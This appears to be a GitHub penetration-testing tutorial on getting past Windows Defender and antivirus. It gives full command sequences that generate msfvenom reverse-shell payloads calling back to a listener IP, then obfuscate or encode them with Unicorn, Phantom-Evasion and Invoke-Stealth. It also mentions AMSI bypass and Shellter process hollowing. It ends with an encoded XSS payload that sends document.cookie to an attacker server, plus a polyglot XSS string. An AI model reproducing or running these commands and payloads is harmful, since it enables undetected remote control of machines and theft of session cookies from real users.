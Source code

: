 
<img width="900" alt="Anti-Virus-Evasion-Tools" src="https://github.com/deryacortuk/Penetration-Testing-Tutorial/assets/53267226/160f278e-0c56-4857-986d-463d4b04f07f">

## Bypassing Windows Defender with hoaxshell and AMSI trigger

HoaxShell and AMSI bypass techniques are commonly employed by malicious individuals as part of their offensive security tactics. HoaxShell serves as a robust framework specifically designed to circumvent multiple security controls, notably including the Antimalware Scan Interface (AMSI) trigger. By utilizing HoaxShell, attackers aim to evade detection by antivirus software and other protective measures. On the other hand, AMSI, developed by Microsoft, acts as an interface for antivirus and other security solutions to scan and identify malicious
code present within active processes. It is an essential component that enables the detection of potentially harmful activities.


## Harnessing Metasploit templates and custom binaries for antivirus evasion

Metasploit is a powerful penetration testing framework which provides various templates and techniques for effective Antivirus (AV) evasion. These templates offer options like code obfuscation, polymorphism, and packing to create custom payloads that are less likely to be flagged by AV software. By leveraging the versatile capabilities of Metasploit, practitioners can significantly improve their chances of successfully evading AV defenses. This allows pen testers for more
comprehensive security assessments and testing.

## Baseline

Baseline payload To establish a baseline, we will generate the standard msfvenon reverse shell payload for a 32-bit Windows system using the command msfvenom -p windows/shell_reverse_tcp LHOST=192.168.29.15 LPORT=4444 -f exe >
basepayload.exe.

Metasploit’s vast collection of exploits, payloads, and evasion techniques enables successful system compromise by evading AV detection. Utilizing advanced evasion techniques reduces detection rates,
enhancing the effectiveness of security assessments.

## Shellter

Shellter is an advanced and dynamic shellcode injection tool which is widely utilized in red teaming engagements and security assessments carried out by penetration testers and ethical hackers. Its main objective is to evade AV software and IDS. Shellter achieves this by employing dynamic encryption or encoding techniques for payloads.
Using the technique known as process hollowing, Shellter injects malicious shellcode into the memory space of legitimate processes. Moreover, researchers can leverage this tool to evaluate the effectiveness of security controls and identify
potential vulnerabilities in an organization’s defense mechanisms.
Shellter’s unique and powerful feature is dynamic binary instrumentation and injection, allowing seamless payload injection into Windows executables, evading antivirus and intrusion detection systems
effectively.

## Unicorn

The utilization of Magic Unicorn is a straightforward tool which involves
executing a PowerShell downgrade attack and directly injecting shellcode into the system’s memory. The usage process is uncomplicated: by launching Magic Unicorn (ensuring the presence of Metasploit in the correct path if opting for Metasploit methods), the tool automatically generates a PowerShell command. All that is required is to copy and paste this generated code into a command line
window or a payload delivery system for seamless execution.
1. Clone Unicorn by running the command git clone github.com/trustedsec/unicorn

2.Next, navigate to the new Unicorn directory using the command cd
unicorn. To view the available Unicorn options and comprehensive
descriptions of each attack, use the command ./unicorn.py --help
3.To create a payload with Unicorn, use the following command:
./unicorn.py windows/meterpreter/reverse_tcp <Listener IP>
<Listener Port>

Unicorn excels in generating undetectable payload executables through powerful encoding and obfuscation techniques, enabling seamless exploitation of target systems while evading antivirus and
security solutions.

## Phantom-Evasion

Phantom-Evasion is a python-based tool designed for antivirus evasion purposes. It has the capability to generate executable files that are highly difficult to detect, even when using the widely used x86 msfvenom payload.

1. Begin by downloading the tool using the command git clone https://github.com/oddcod3/Phantom-Evasion.git
2. Navigate to the Phantom-Evasion folder by executing the command cd /phantom-evasion. Grant executable permissions and set up the required dependencies by running the commands chmod +x ./phantom-evasion.py and ./phantom-evasion.py --setup
3.Generate the payload using the following command: python3 phantomevasion.py -m WSI -msfp windows/meterpreter/reverse_tcp -H 192.168.29.15 -P 4444 -i Thread -e 4 -mem Virtual_RWX -j 1 -J 15 -
jr 0 -E 5 -f exe -o PhEv.exe
Phantom Evasion’s exceptional polymorphic engine and payload
generation capabilities empower penetration testers to create undetectable payloads, bypassing antivirus software and security controls for successful system infiltration.

## Invoke-Stealth

This tool helps you to automate the obfuscation process of any script written in PowerShell with different techniques. You can use any of them separately, together or all of them sequentially with ease, from Windows or Linux.

1. Begin by downloading Invoke-Stealth. Execute the command git clone
https://github.com/JoelGMSec/Invoke-Stealth.git to download the tool.


2. Navigate to the Invoke-Stealth folder using the command cd InvokeStealth. Run the command pwsh Invoke-Stealth.ps1 --help to explore the available obfuscation techniques and other utilities.
3.Use the following command: msfvenom -p windows/powershell_reverse_tcp
LHOST=192.168.29.15 LPORT=4444 -e x86/shikata_ga_nai -f psh -o
payloadummed.ps1.
4. Execute the following command pwsh Invoke-Stealth.ps1
/home/ummedmeel/Desktop/payloadummedm.ps1 -technique All.

Invoke-Stealth generates stealthy PowerShell scripts using
obfuscation and encryption to evade antivirus detection and execute covert operations.

# XSS payload
This means you can construct an XSS payload without quotes, like this:
<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 
47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 
101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
The String.fromCharCode() function returns a string, given an input list 
of ASCII character codes. 

Take a look at this polyglot payload published by EdOverflow at https://polyglot.innerht.ml/:javascript:"/*\"/*`/*' /*</template>
</textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
